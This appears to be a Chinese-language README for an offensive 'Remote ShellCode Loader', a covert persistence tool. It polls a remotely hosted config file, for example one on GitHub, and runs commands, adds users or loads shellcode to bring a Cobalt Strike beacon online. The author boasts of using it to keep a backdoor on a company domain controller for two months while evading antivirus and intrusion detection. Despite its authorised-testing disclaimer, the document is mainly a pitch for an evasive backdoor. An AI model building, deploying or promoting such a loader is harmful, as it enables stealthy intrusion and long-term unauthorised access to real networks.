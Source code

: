 # Remote ShellCode Loader

## 声明

本文所采用技术，仅用来实现自定义功能，适用场景仅为授权的测试中进行权限维持或为个人电脑添加定制化功能，如：启动开机时启动计算机器，方便实用~

***本文仅限技术研究与讨论，严禁用于非法用途，否则产生的一切后果自行承担。**

## 背景

​	在公司打下来域控，用了一种好玩的方法做了权限维持（只要我进程不存在，你就永远也不知道我在哪）。

​	特征极少，绕过了杀软，hids，nids，后门存活了两个多月。最终在威胁情报上遭遇了滑铁卢。

​	控制端C2是有几条威胁情报的，结合NIDS的流量，情报介入以后，异常外连直接被发现。于是诞生了这个工具（只要我不连接C2，威胁情报就永远发现不了我）

​	此处仅提供思路，可和DLL劫持、其他维权手段结合。在红蓝对抗的时候，能多一个选择~

## 使用

编译测试环境：

- WIN10 1909

- VS2019

./loader url

![image-20220513164025793](./README.assets/image-20220513164025793.png)

~~当然，你可以下载源码把url硬编码在代码中，这样连命令行特征都没有了。~~

## 功能

 ```yaml
 远端配置文件：
 sleep:10
 type:cmd
 value:calc
 ```

- sleep: 休眠时间，下次获取服务端配置间隔（单位：秒）

- type: 有sleep、cmd、up、exit四种

  ​	~~value必填项，还没处理到这块，不需要value的随便填啥都可以~~

  - sleep	不执行任何操作。

    ![image-20220513164901190](./README.assets/image-20220513164901190.png)

  - cmd     执行命令 value 为要执行的命令。

    ![image-20220513164924976](./README.assets/image-20220513164924976.png)

  - up        执行shellcode上线 value为shellcode bin的16进制

    ![image-20220513165111697](./README.assets/image-20220513165111697.png)

  - exit      退出进程。

    ![image-20220513165019842](./README.assets/image-20220513165019842.png)

## 场景

我需要做隐蔽的权限维持，机器暂时不用，需要的时候上线。~~或者某些cdn上，比如，能上传txt的地方。。。~~

可以把配置文件丢github上，设一个4小时的sleep，需要的时候，修改配置文件

- 执行命令添加用户。

  ![image-20220513165503944](./README.assets/image-20220513165503944.png)

- 上线CobaltStrike

  ![image-20220513165450977](./README.assets/image-20220513165450977.png)



## 问题

已知问题

- 命令只接受单个命令，不接受空格

  和读取方式有关，后面改

- 加载shellcode后创建线程执行，但是beacon退出后会exit整个进程（cmd方式无此问题）

  好像和CobaltStrike Beacon退出方式有关

- 仅支持X64

- 没有经过严格测试，有bug

  

## ~~TODO~~

- 接受带空格的命令
- ~~线程退出后不影响进程~~



## 参考

https://github.com/curl/curl